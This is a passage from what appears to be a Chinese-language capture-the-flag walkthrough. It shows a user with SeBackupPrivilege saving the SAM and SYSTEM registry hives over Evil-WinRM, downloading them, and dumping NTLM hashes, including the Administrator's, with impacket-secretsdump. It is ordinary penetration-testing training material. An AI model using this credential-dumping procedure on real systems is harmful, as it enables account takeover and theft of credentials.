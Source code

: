 发现存在 `SeBackupPrivilege (备份文件和目录)` 权限
那么可以进行SAM转储

在 `song` 用户的winrm客户端下
找一个可以下载的目录
转储sam 与系统注册表
```bash
*Evil-WinRM* PS C:\Users\TEMP.bbr\Documents> reg save hklm\sam sam.hive
The operation completed successfully.

*Evil-WinRM* PS C:\Users\TEMP.bbr\Documents> reg save hklm\system system.hive
The operation completed successfully.

*Evil-WinRM* PS C:\Users\TEMP.bbr\Documents> dir


    Directory: C:\Users\TEMP.bbr\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        12/5/2024   9:05 PM          36864 sam.hive
-a----        12/5/2024   9:05 PM        9945088 system.hive

```
然后下载到kali

```bash
*Evil-WinRM* PS C:\Users\TEMP.bbr\Documents> download sam.hive

Info: Downloading C:\Users\TEMP.bbr\Documents\sam.hive to sam.hive

Info: Download successful!
*Evil-WinRM* PS C:\Users\TEMP.bbr\Documents> download system.hive

Info: Downloading C:\Users\TEMP.bbr\Documents\system.hive to system.hive

Info: Download successful!

```
使用 `impacket-secretsdump` 从注册表转储文件中获取 ntlm 哈希
```bash
┌──(root㉿kali)-[/home/kali/thl/BIG]
└─# impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0xbb33617256ea48219d9d3d01766b7a9e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb1c50a48c37e053d2045cd5b55cd2f2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up...


```
